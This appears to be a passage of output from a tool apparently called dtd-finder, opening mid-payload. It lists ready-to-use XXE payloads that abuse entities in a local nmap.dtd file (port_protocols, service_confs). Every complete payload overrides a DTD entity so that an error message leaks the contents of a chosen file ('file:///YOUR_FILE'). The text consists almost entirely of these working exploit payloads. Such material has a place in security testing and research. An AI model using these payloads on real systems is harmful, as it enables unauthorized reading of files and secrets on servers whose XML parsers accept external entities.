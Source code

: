 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `port_protocols`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % port_protocols '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `service_confs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % service_confs '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
